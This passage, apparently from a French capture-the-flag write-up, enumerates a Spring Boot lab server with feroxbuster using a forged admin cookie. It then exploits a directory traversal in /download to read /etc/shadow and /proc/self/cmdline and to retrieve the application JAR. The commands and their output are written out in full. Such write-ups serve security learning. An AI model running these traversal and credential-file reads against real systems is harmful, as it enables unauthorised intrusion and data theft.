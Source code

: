 Aussi, le format du JSON retourné par `/error` semble typique de ce framework :

[java - Getting &quot;No message available&quot; error with Spring Boot + REST application - Stack Overflow](https://stackoverflow.com/questions/34135205/getting-no-message-available-error-with-spring-boot-rest-application)

J'ai trouvé sur Github un outil de scan spécifique :

[GitHub - AabyssZG/SpringBoot-Scan: 针对SpringBoot的开源渗透框架，以及Spring相关高危漏洞利用工具](https://github.com/AabyssZG/SpringBoot-Scan)

Il n'en est rien ressorti. Pareil pour les deux exploits trouvés sur `exploit-db` : ils requièrent l'accès à des endpoints `actuators` qui ne sont pas présents ici.

Finalement, ce qu'il me fallait pour ne plus être bloqué, c'était autoriser la remontée des status HTTP 400 par `feroxbuster` :

```bash
feroxbuster -u http://192.168.56.139:8080/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -H "Cookie: auth=admin:S+jYmswX8+Lnl8Y+X7auaMMN5AHvFyKZMJluN/qPCFI=;" -t 100 -s 200,204,301,302,307,308,400,401,403,405,500
```

Cette fois, on trouvait aussi un endpoint `/download`. C'est la preuve que c'est outils d'énumérations sont toujours pensés pour des sites classiques et moins pour des APIs...

### CoffeeTime

Ce script attend un paramètre `file` que l'on peut soit deviner, soit trouver mentionné dans l'erreur retournée par le serveur. On a un directory traversal sans restrictions. On peut même accèder à `/etc/shadow` mais aucun hash n'est présent, signe que le serveur tourne dans un container.

Les applis générées par Spring-Boot sont au format JAR. Elles contiennent toute la machinerie Spring ainsi que le code custom. En lisant `/proc/self/cmdline` on peut trouver le nom du fichier :

```console
$ curl -s "http://192.168.56.139:8080/download?file=/proc/self/cmdline" -H "Cookie: auth=admin:S+jYmswX8+Lnl8Y+X7auaMMN5AHvFyKZMJluN/qPCFI=;" -o- | tr '\0' ' '
java -jar javaserver-0.0.1-SNAPSHOT.jar
```

On re-exploite ensuite le directory traversal pour lire le fichier que l'on peut décompresser :

```console
$ unzip -l javaserver-0.0.1-SNAPSHOT.jar 
Archive:  javaserver-0.0.1-SNAPSHOT.jar
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2025-06-29 23:55   META-INF/
      378  2025-06-29 23:55   META-INF/MANIFEST.MF
        0  2025-06-29 23:55   org/
        0  2025-06-29 23:55   org/springframework/
        0  2025-06-29 23:55   org/springframework/boot/
        0  2025-06-29 23:55   org/springframework/boot/loader/
        0  2025-06-29 23:55   org/springframework/boot/loader/data/
--- snip ---
     1484  2019-06-19 00:02   org/springframework/boot/loader/PropertiesLauncher$ArchiveEntryFilter.class
        0  2025-06-29 23:55   BOOT-INF/
        0  2025-06-29 23:55   BOOT-INF/classes/
        0  2025-06-29 23:55   BOOT-INF/classes/org/
        0  2025-06-29 23:55   BOOT-INF/classes/org/example/
        0  2025-06-29 23:55   BOOT-INF/classes/org/example/javaserver/
        0  2025-06-29 23:55   BOOT-INF/classes/org/example/javaserver/controller/
        0  2025-06-29 23:55   BOOT-INF/classes/static/
        0  2025-06-29 23:55   META-INF/maven/
        0  2025-06-29 23:55   META-INF/maven/org.example/
        0  2025-06-29 23:55   META-INF/maven/org.example/javaserver/
       73  2025-06-29 23:55   BOOT-INF/classes/application.properties
```